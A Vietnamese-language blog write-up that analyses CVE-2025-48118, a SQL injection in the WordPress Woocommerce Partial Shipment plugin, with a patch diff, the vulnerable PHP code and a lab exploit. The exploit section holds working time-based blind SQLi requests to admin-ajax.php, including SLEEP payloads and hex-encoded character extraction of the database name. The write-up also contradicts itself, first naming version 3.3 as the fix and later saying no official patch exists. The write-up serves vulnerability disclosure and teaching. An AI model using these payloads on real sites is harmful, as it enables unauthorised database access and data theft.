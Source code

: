 # CVE-2025-48118 Analysis & POC


<!--more-->

Lỗ hổng xảy ra trên plugin **Woocommerce Partial Shipment** của WordPress trước phiên bản **3.3**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-48118](https://www.cve.org/CVERecord?id=CVE-2025-48118)
* **Product**: [WordPress Woocommerce Partial Shipment Plugin](https://wordpress.org/plugins/wc-partial-shipment/advanced/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 3.2
* **CVSS severity**:  High (8.5)
* **Required Privilege**: Subscriber

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
- **Woocommerce Partial Shipment**:  v3.2(vul) và v3.3(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version
- **Actived WooCommerce plugin**: plugin bắt buộc **actived** trước khi cài **Woocommerce Partial Shipment Plugin**, một số hàm trong **WooCommerce** sẽ được sử dụng.

## Analysis

Nguyên nhân cố lõi do ứng dụng chèn trực tiếp dữ liệu từ **POST** request vào SQL query mà không có cơ chế kiểm soát chặt chẽ.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **wc-partial-shipment/woocommerce-partial-shipment.php**

Nhưng ở đây, dev thay đổi khá nhiều ta khó để tìm được vị trí lỗi.

> Trong WordPress, để SQLi xảy ra, ứng dụng phải tương tác với database thông qua biến global `$wpdb`, ta search từ khóa này trong file **wc-partial-shipment/woocommerce-partial-shipment.php** để tìm sink.

{{< figure src="search_sink.png" caption="Kết quả tìm vị trí sink trong mã nguồn" alt="search sink" >}}

`get_shipment_id` và `get_wxp_shipment_data` là 2 hàm thuộc class **WXP_Partial_Shipment** đáng chú ý, dữ liệu được đưa thẳng vào câu query mà không có cơ chế kiểm soát nào. Do đó, lỗ hổng SQLi có thể xảy ra.

{{< figure src="patch.png" caption="So sánh sự khác biệt giữa bản lỗi và bản vá" alt="Patch" >}}

Bản vá sử dụng `$wpdb->prepare()` để chuẩn bị câu query, thay vì **nối trực tiếp dữ liệu từ người dùng**. Điều này đảm bảo rằng tất cả giá trị được **escape đúng cách** trước khi chèn vào SQL, ngăn ngừa nguy cơ SQL Injection.

### How it work?

`get_shipment_id` và `get_wxp_shipment_data` đều được hàm `wxp_order_set_shipped` trong cùng class gọi và sử dụng.

```php
function wxp_order_set_shipped(){
    $order_id = isset($_POST['order_id']) ? $_POST['order_id'] : 0;
    // other logic

    $wxp_shipment = $this->get_wxp_shipment_data($order_id);
    if(isset($_POST['order_id']) && $_POST['order_id']){
        global $wpdb;
        $shipment_id = $this->get_shipment_id($_POST['order_id']);
        if(!$shipment_id){
            $data = array(
                'order_id' =>$order_id,
                'shipment_id' =>1,
                'shipment_url'=>'',
                'shipment_num'=>'',
                'shipment_date'=>current_time('timestamp',0),
            );
            $wpdb->insert($wpdb->prefix."partial_shipment",$data,array('%d','%d','%s','%s','%s'));
            $shipment_id = $wpdb->insert_id;
        }
    // other logic     
    }

    echo json_encode(array('order_id'=>$order_id,'status'=>$status_key));
    exit();
}
```

👉 `order_id` được lấy từ **POST request**, nơi người dùng có thể kiểm soát làm đối số khi gọi hàm `get_shipment_id` và `get_wxp_shipment_data`
truyền vào câu query chứa lổ hỗng SQLi.

Để xác định nơi `wxp_order_set_shipped` được gọi và sử dụng, ta tìm kiếm với từ khóa `wxp_order_set_shipped` trong thư mục chứa plugin.

{{< figure src="search_1.png" caption="Tìm vị trí nơi hàm wxp_order_set_shipped được gọi" alt="Search 1" >}}

`wxp_order_set_shipped` được `construct` của cùng class sử dụng làm callback cho hook `wp_ajax_wxp_order_set_shipped` => yêu cầu người dùng phải đăng nhập

👉 Khi truy cập vào `/wp-admin/admin-ajax.php` với tham số:

```
action=wxp_order_set_shipped&order_id=payload_here
```

* Callback `wxp_order_set_shipped` được gọi
* `order_id` được lấy trực tiếp từ request và chèn vào SQL query.
* Query thực thi 2 lần do được truyền vào 2 hàm chạy lệnh SQL với payload độc hại.

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Khi đó câu query sẽ trở thành:

```sql
SELECT id as ship_id FROM wp_partial_shipment WHERE order_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

Ở đây có 2 nơi thực hiện query nên thời gian phản hồi sẽ tăng gấp đôi

{{< figure src="time_resp.png" caption="Kết quả phản hồi khi khai thác thành công" alt="time response" >}}

Ta sử dụng **subquery trong mệnh đề FROM** vì truy vấn con được coi như một bảng tạm thời. MySQL sẽ thực thi truy vấn con trước để tạo bảng tạm, sau đó mới thực hiện truy vấn chính. Khi so sánh theo từng row, `SLEEP` chỉ chạy một lần trong quá trình khởi tạo bảng tạm, các lần so sánh tiếp theo sẽ không thực thi lại, nhờ đó tránh việc `SLEEP` bị nhân nhiều lần.

Ví dụ khi gửi request với payload này:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT SLEEP(5))
```

Thời gian trả về tăng theo cấp số nhân

{{< figure src="search_2.png" caption="Thời gian phản hồi tăng theo cấp số nhân" alt="search 2" >}}

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=wxp_order_set_shipped&order_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `order_id` được lấy từ **POST** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

## Conclusion

Lỗ hổng **CVE-2025-48118** trong plugin WordPress **Woocommerce Partial Shipment** trước phiên bản **3.3**, xuất phát từ việc truyền trực tiếp input từ người dùng vào SQL query mà không có biện pháp kiểm soát chặt chẽ dẫn đến lỗ hổng SQL Injection.

Chưa có bản vá chính thực nào cho lỗ hổng này.

**Key takeaways**:

* Kiểm soát kỹ input từ người dùng.
* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Woocommerce Partial Shipment Plugin <= 3.2 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/wc-partial-shipment/vulnerability/wordpress-woocommerce-partial-shipment-3-2-sql-injection-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-09-29-cve-2025-48118/  

